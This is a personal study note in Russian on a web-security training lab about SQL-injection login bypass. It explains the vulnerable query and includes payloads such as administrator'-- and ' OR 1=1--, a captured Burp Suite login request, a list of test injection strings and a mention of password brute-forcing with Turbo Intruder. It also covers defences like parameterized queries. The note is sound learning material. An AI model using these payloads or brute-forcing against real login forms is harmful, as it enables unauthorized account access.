


тип: SQLi лаба 02
дата: 03.01.2026
теги: 
**🟢Тип уязвимости:**   ==Authentication Bypass==** (Обход аутентификации)
[[SQLi]]  ломаем логику работы приложения
обход авторизации путем изменения sql запроса

=Дан сайт и подсказка что  в инпуте логина / пароля есть sql уязвимость
вот оригинальный URL страницы


---------------------------------------------------------------------------

🔵 **Принцип**:

1) **Обнаружение уязвимости**
/ пробуем ставить символы ' или -- в эти поля чтобы увидеть что логика  работы сайта меняется, значит мы можем влиять на запросы sql

```sql
// оригинал
`SELECT * FROM users WHERE username = 'wiener' AND password = '12345'`
```


2) **Эксплуатация (Proof-of-Concept)**  
в поле логина: ==administrator'--==  или   ==administrator' OR 1=1--==
в поле  пароля без разницы что, так как -- закомментировано 

```sql
// модифициорованная       '--               )' 
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

🟣 **Почему сработало?**  
// теперь часть запроса где мы проверяем пароль - не используется , и поиск по базе данных идет только по username, и возвращает нам данные данного юзера без пароля


🟣 использую второй способ -Burp Suitе
🟣вот так выглядит запрос на авторизацию 
можно видеть парметры username  и password, здесь можно также сделать sql иньекцию добавив после ввода логина '-- логика таже самая 

`csrf=MlOs9Czkz8FENTRbtDS5pWc7WYOytbPJ&username=qwefcqwef&password=123e`

=----------------------------------
```http
POST /login HTTP/2
Host: 0af400db03e1633780ce2b760005003b.web-security-academy.net
Cookie: session=lGAMgGxm2giuRePN8uOz9ZimhWjgcUaU
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="143", "Not A(Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Origin: https://0af400db03e1633780ce2b760005003b.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af400db03e1633780ce2b760005003b.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=MlOs9Czkz8FENTRbtDS5pWc7WYOytbPJ&username=admin&password=123e
```
=----------------------------------

#### ⚙️ Принцип работы и анализ
*   **Тип уязвимости:** ** - **🟢 Authentication Bypass** (Обход аутентификации)
*   **Механика payload'а:**
    
---

#### 📌 Ключевые выводы для практики
🔴🟩   **Распространённость:**
Высокая в legacy-системах
Средняя в современных фреймворках с ORM
Всегда проверять поля: логин, пароль, поиск, фильтры


🔴🟩  **Защита:** 
1. **Prepared Statements (Parameterized Queries) ПАРАМЕТРИЗИР ЗАРОСЫ - топ !!! ** 
    python
    ###### НЕПРАВИЛЬНО
    query = f"SELECT * FROM users WHERE username = '{username}'"
    
    ###### ПРАВИЛЬНО
    cursor.execute("SELECT * FROM users WHERE username = %s", (username,))
    
2. **Input Validation + Whitelisting** - Проверка вводимых данных + внесение в белый список
    
3. **Escape Special Characters** - экранируем спец символы 
    
4. **Least Privilege Principle** - меньше прав для данных функций
    
5. **WAF (Web Application Firewall)** 


🔴🟩   **Тестирование:** 
- **Базовые тесты:**
   
```sql
    ' OR '1'='1
    ' OR 1=1--
    admin'--
    " OR ""="
```
    
- **Определение СУБД:**
    
```sql
    ' AND '1'='1` → если работает, возможно MySQL
        
    ' UNION SELECT NULL--` → проверка на Union-based
```        
- **Инструменты:**
    
    - **Ручное:** Burp Suite, Browser DevTools
        
    - **Автоматическое:** SQLMap, Havij


--------------------------------------------------------------------------


# 🔶ТЕСТ с BURP SUITE
мы знаем изначально что есть аккаунт administrator из условий задачи
перехватил запрос процесса логина 
добавил в параметры запроса в инспекторе value administrator'--
применил изменения и отправил запрос на сервер!
в итоге удалось залогиниться! и вошел в личный кабинет администратора!




# ПОДБОР ПАРОЛЕЙ   Burp Suite
-->  [[подбор паролей Burp Suite]]    <-- с использованием плагина ==Turbo Intruder==
тут же если добавить этот запрос в intruader  и создать пейлоад и подставить туда например список паролей, и запустить и тогда 



в турбо интрудере есть базовые скрипты для перебора, подставил пейлоад-список паролей, и подобрал пароль к нику, по ответу понял, где угадал!

никакой защиты не было, ни от бутфорса, ни от спец символов!